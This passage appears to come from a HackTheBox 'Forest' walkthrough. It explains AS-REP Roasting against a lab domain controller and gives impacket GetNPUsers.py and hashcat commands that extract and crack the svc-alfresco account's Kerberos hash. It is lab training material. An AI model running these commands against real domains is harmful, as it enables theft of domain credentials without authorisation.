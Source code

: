 But this will run for a while... Since this is a DC, the following resource is helpful for ideas on what to enumerate:

- https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html

One thing to check for is AS-REP Roasting. Since a list of users is given, check if any of them allow for this attack:

- https://www.hackingarticles.in/as-rep-roasting/

> If the user has “Do not use Kerberos pre-authentication” enabled, then an attacker can recover a Kerberos  AS-REP encrypted with the users RC4-HMAC’d password and he can attempt to crack this ticket offline.

The rest of the attacks require a domain joined PC (like with Kerberoasting) or cracked domain account credentials. Test for this configuration as follows:

```bash
find / -iname GetNPUsers.py 2>/dev/null
/usr/share/doc/python3-impacket/examples/GetNPUsers.py htb.local/ -format hashcat -usersfile users.txt -dc-ip 10.10.10.161 -no-pass -k
```

![dc1](./forest/dc1.png)

Nice! It seems like the `svc-alfresco` is vulnerable to AS-REP Roasting. Try cracking the above hash:

- https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
# save above hash in dc.hash
hashcat -m 18200 -a 0 --quiet --potfile-disable dc.hash rockyou.txt
```

And this results in a win!

![hash1](./forest/hash1.png)
